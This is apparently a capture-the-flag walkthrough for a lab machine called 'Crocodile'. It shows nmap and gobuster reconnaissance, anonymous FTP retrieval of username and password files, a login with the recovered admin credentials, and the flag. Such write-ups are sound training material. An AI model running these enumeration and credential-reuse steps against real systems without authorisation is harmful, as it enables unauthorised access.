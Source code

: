 ```yaml
---
layout: default
title: Crocodile
---
```


## TL;DR

We get the password from anonymous ftp login, and then login in `/login.php`, which we find using `gobuster`

### Recon

first, we do `nmap` using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap](image.png)

As we can see, there are 2 ports that are opened, port `21` for *ftp* and port `80` for *apache* server:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix
```

### Login anonymously to ftp

As we can see, the scan told us that we can log to `ftp` anonymously, and that there are files there.

Let's connect using the user `anonymous`:
```bash
ftp anonymous@$target
```

And then, we'll get the files, using the command `get`:
```bash
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||41624|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |********************************|    33      145.16 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.15 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||48638|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |********************************|    62      220.97 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.37 KiB/s)
```

when we open the files, we can find usernames:
```bash
aron
pwnmeow
egotisticalsw
admin
```

and also passwords:
```bash
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

okay, now let's use `gobuster` to find files in the website that is behind port `80`, the *apache* server. we use the `-x` to specify which filetypes we are looking for, in this case `php`, because we might find some login pages.
```bash
gobuster dir --url $target -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

![gobuster](image-1.png)

The `gobuster` shows us there is `/login.php` file, let's try the credentials we achieved to login to the page. 

Let's connect using the `admin` credentials, the password is `rKXM59ESxesUFHAd`.

![flag](image-2.png)

**Flag:*****`c7110277ac44d78b6a9fff2232434d16`***
